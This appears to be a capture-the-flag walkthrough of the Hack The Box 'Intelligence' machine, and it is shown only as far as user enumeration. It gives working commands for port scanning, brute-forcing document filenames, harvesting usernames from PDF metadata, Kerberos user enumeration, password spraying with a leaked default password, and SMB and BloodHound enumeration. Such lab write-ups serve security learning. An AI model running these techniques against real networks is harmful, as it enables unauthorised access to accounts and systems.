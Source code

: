 # Hack the Box - Intelligence

```CSS
Nachine IP: 10.10.10.248
```

## NMAP
```CSS
▶ nmap -Pn -sS -p- 10.10.10.248 -T4 --min-rate 1000 -oN nmap.surface

Nmap scan report for 10.10.10.248
Host is up (0.18s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49667/tcp open  unknown
49691/tcp open  unknown
49692/tcp open  unknown
49707/tcp open  unknown
49714/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 304.78 seconds
```

```CSS
▶ nmap -sC -sV -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49667,49691,49692,49707,49714 10.10.10.248 -oN nmap.deep

Nmap scan report for 10.10.10.248                                                                                                                                           
Host is up (0.18s latency).                                                                                                                                                 
                                                                                                                                                                            
PORT      STATE SERVICE       VERSION                                                                                                                                       
53/tcp    open  domain        Simple DNS Plus                                                                                                                               
80/tcp    open  http          Microsoft IIS httpd 10.0                                                                                                                      
| http-methods:                                                                                                                                                             
|_  Potentially risky methods: TRACE                                                                                                                                        
|_http-server-header: Microsoft-IIS/10.0                                                                                                                                    
|_http-title: Intelligence                                                                                                                                                  
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-04-10 09:15:40Z)                                                                                
135/tcp   open  msrpc         Microsoft Windows RPC                                                                                                                         
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn                                                                                                                 
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)                                           
|_ssl-date: 2023-04-10T09:17:11+00:00; +6h59m58s from scanner time.                                                                                                         
| ssl-cert: Subject: commonName=dc.intelligence.htb                                                                                                                         
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb                                                                         
| Not valid before: 2021-04-19T00:43:16                                                                                                                                     
|_Not valid after:  2022-04-19T00:43:16                                                                                                                                     
445/tcp   open  microsoft-ds?                                                                                                                                               
464/tcp   open  kpasswd5?                                                                                                                                                   
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0                                                                                                           
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)                                           
|_ssl-date: 2023-04-10T09:17:12+00:00; +6h59m58s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-04-10T09:17:11+00:00; +6h59m58s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: intelligence.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-04-10T09:17:12+00:00; +6h59m58s from scanner time.
| ssl-cert: Subject: commonName=dc.intelligence.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.intelligence.htb
| Not valid before: 2021-04-19T00:43:16
|_Not valid after:  2022-04-19T00:43:16
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49691/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49692/tcp open  msrpc         Microsoft Windows RPC
49707/tcp open  msrpc         Microsoft Windows RPC
49714/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2023-04-10T09:16:35
|_  start_date: N/A
|_clock-skew: mean: 6h59m57s, deviation: 0s, median: 6h59m57s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 100.93 seconds
```

---

## HTTP Port #80
  - Homepage
![image](https://user-images.githubusercontent.com/83878909/230812679-60dfc045-321b-4e62-b577-3006e048ab79.png)

  - Announcement Document
![image](https://user-images.githubusercontent.com/83878909/230812932-cad5e527-0fd3-40b5-a09e-62a087f9aebd.png)

  - Other Document
![image](https://user-images.githubusercontent.com/83878909/230813172-f7359efc-a356-4629-9a8a-64564ee6cb07.png)

---

## Brute-Force PDF Filenames
  - Create a wordlist to brute-force the `date`, maybe some other documents exist.
```CSS
▶ for i in $(seq $(date -d "2020-01-01" +%s) 86400 $(date -d "2021-05-15" +%s)); do date -d @$i "+%Y-%m-%d-upload.pdf"; done > files.txt
```
- Brute-Force the filename.
```CSS
▶ for i in $(cat files.txt); do wget http://10.10.10.248/documents/$i; done
```
  - Files found.
![image](https://user-images.githubusercontent.com/83878909/230816862-cc30d963-0b39-4c13-b2cc-7e89e51206b3.png)

---

## Exiftool PDF Meta-data
  - PDF files meta-data.
![image](https://user-images.githubusercontent.com/83878909/230817269-96fbdaa8-e0a4-48e0-b13e-b00ef8405861.png)
  - Extract creator names from meta-dta of all the PDF files.
```CSS
▶ pdf exiftool *pdf | grep Creator | awk '{print $3}' | sort -u > creators.txt
```
```CSS
Anita.Roberts
Brian.Baker
Brian.Morris
Daniel.Shelton
Danny.Matthews
Darryl.Harris
David.Mcbride
David.Reed
David.Wilson
Ian.Duncan
Jason.Patterson
Jason.Wright
Jennifer.Thomas
Jessica.Moody
John.Coleman
Jose.Williams
Kaitlyn.Zimmerman
Kelly.Long
Nicole.Brock
Richard.Williams
Samuel.Richardson
Scott.Scott
Stephanie.Young
Teresa.Williamson
Thomas.Hall
Thomas.Valenzuela
Tiffany.Molina
Travis.Evans
Veronica.Patel
William.Lee
```

---

## Kerbrute Validate Usernames
```CSS
▶ kerbrute userenum creators.txt --dc 10.10.10.248 -d intelligence.htb
```
![image](https://user-images.githubusercontent.com/83878909/230821076-266f1262-a0a6-4d35-bd21-025be8a3c845.png)

---

## Sensitive Information (Passwords)
  -  Convert all `pdf` files to `text`.
```CSS
▶ for i in $(ls); do pdftotext $i; done
```

  - Passwords
```CSS
▶ cat *.txt | grep -i password -B5 -A5
```
![image](https://user-images.githubusercontent.com/83878909/230822841-3abc40df-e706-4d56-8fbe-1c1b6a0fcab9.png)
  - Password: `NewIntelligenceCorpUser9876`

---

## Kerbrute Password Spray
```
▶ kerbrute userenum creators.txt NewIntelligenceCorpUser9876 --dc 10.10.10.248 -d intelligence.htb -v
```
![image](https://user-images.githubusercontent.com/83878909/230831769-4dfc3fc7-a2ab-4be5-a034-bbb67725fe2b.png)

---

## Attempt Logins
  - SMB Login: Failed
```CSS
▶ crackmapexec smb 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876
```
![image](https://user-images.githubusercontent.com/83878909/230832417-7e22c44a-e4b7-4c57-8074-1f134362893b.png)

  - Winrm Login: Failed
```CSS
▶ crackmapexec smb 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 --shares
```
![image](https://user-images.githubusercontent.com/83878909/230832825-500c2c4c-c5bc-408f-9054-ff525fc9189e.png)

---

## SMB Shares
  - List SMB Shares
```CSS
▶ crackmapexec smb 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 --shares
```
![image](https://user-images.githubusercontent.com/83878909/230832582-d9290c11-90a7-4a0d-bd7a-fafde4a67b18.png)

---

## BloodHound
```CSS
▶ bloodhound-python -ns 10.10.10.248 -d intelligence.htb -dc dc.intelligence.htb -u Tiffany.Molina -p NewIntelligenceCorpUser9876 -c All
```
```CSS
▶ sudo neo4j console
```
```CSS
▶ bloodhound
```
  - Nothing interesting found about user `Tiffany.Molina`.


## Enumerate Other Users on the Domain
```CSS
▶ crackmapexec smb 10.10.10.248 -u Tiffany.Molina -p NewIntelligenceCorpUser9876 --users
```
![image](https://user-images.githubusercontent.com/83878909/230924220-2bff7ab5-7d47-45c4-b392-2d2695d51ad4.png)

